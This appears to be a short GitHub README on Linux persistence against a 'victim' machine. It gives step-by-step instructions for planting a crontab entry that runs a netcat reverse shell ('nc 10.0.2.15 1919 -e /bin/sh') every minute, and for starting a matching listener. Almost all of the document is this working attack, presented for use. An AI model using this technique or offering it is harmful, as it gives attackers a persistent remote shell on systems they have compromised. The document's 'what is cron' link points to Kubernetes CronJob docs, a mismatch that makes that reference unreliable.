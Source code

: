 # Linux_Persistence_Techniques
Methods to be persistent in Victim's linux machine or sever.

#   Persistence via CRONJOB 



[What is cron ?](https://kubernetes.io/docs/concepts/workloads/controllers/cron-jobs/)



## Cron Installation - 

To Install cronjob in your Linux or ubuntu machine

```bash
sudo apt-get install cron
```

To Edit CronTab File Paste this following command
```bash
crontab -e 
```
Inside Crontab file Paste this Netcat reverse shell with * * * * * .
### EXAMPLE : 
```bash
 * * * * * nc 10.0.2.15 1919 -e /bin/sh
 ```
 
Now! we all done.
This cron job will connect to a netcat listener every minute.

Lets Start Netcat Listner
```bashnc
nc -nvlp 1919
```
ALRIGHT !!!!

NOW WE GOT REVERSE SHELL EVERYSINGLE MINUTE..



